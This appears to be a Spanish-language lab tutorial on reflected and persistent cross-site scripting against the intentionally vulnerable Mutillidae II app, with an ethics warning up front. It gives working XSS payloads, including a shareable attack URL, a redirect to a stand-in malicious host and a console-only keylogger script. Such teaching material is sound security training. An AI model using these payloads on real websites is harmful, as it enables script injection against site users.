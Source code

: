 **Advertencia Legal y Ética**

Esta guía es únicamente con fines **educativos y éticos**. **Nunca intentes estos ataques en sistemas que no tengas permiso explícito para auditar.**
Todo debe hacerse en un entorno de laboratorio, como una máquina virtual con Mutillidae instalado.



Requisitos previos

Máquina virtual con **Kali Linux** o similar (para el atacante).
Máquina virtual con **Mutillidae II** funcionando (por ejemplo, en XAMPP o LAMP).
Navegador actualizado (Firefox/Chrome).
Red local o NAT para que las máquinas se comuniquen.
Nivel de seguridad de Mutillidae en "0" o "Low".



# XSS Reflected – Herramienta "DNS Lookup"

### Descripción

En un ataque **Reflected XSS**, el script malicioso se refleja directamente en la respuesta del servidor, generalmente desde un parámetro en la URL.

### Ruta en Mutillidae:

```
http://<IP_MUTILIDAE>/mutillidae/index.php?page=dns-lookup.php
```

---

### Paso a Paso

#### 1. Visita la página

Abre la página DNS Lookup en Mutillidae.

#### 2. Inserta el siguiente **script malicioso** en el campo de nombre de dominio:

```html
"><script>alert('Reflected XSS')</script>
```

#### 3. Presiona **Submit**.

### Resultado esperado:

Se ejecutará un `alert()` en el navegador mostrando el mensaje “Reflected XSS”.

---

### Prompt / Script útil para pruebas

```html
"><script>document.body.style.backgroundColor='red';</script>
```

Esto cambiará el color del fondo al rojo, demostrando que puedes modificar el DOM (más sutil que un alert).

---

### Enlace para compartir el ataque (simulación):

```url
http://<IP_MUTILIDAE>/mutillidae/index.php?page=dns-lookup.php&target="><script>alert('XSS')</script>
```

---

# 2. XSS Persistente – Herramienta "Add to Your Blog"

### Descripción

En un ataque **Persistent XSS**, el script se guarda en la base de datos y se ejecuta cada vez que un usuario accede al contenido comprometido (como un blog).

### Ruta en Mutillidae:

```
http://<IP_MUTILIDAE>/mutillidae/index.php?page=add-to-your-blog.php
```

---

### Paso a Paso

#### 1. Ve a la sección "Add to Your Blog".

#### 2. En los campos de entrada usa:

* **Title:**

  ```
  Entrada maliciosa
  ```

* **Comment:**

  ```html
  <script>alert('Persistent XSS');</script>
  ```

#### 3. Presiona **Sign Guestbook**.

#### 4. Ve a la página principal del blog:

```
http://<IP_MUTILIDAE>/mutillidae/index.php?page=view-someones-blog.php
```

---

### 🎯 Resultado esperado:

Cada vez que alguien vea esa entrada del blog, el navegador ejecutará el script (mostrando el `alert()`).

---

### Otros scripts persistentes útiles

* Redireccionar:

  ```html
  <script>window.location='http://malicious-site.com'</script>
  ```

* Keylogger simulado (solo muestra teclas por consola):

  ```html
  <script>
    document.onkeypress = function(e) {
      console.log("Tecla presionada: " + e.key);
    }
  </script>
  ```
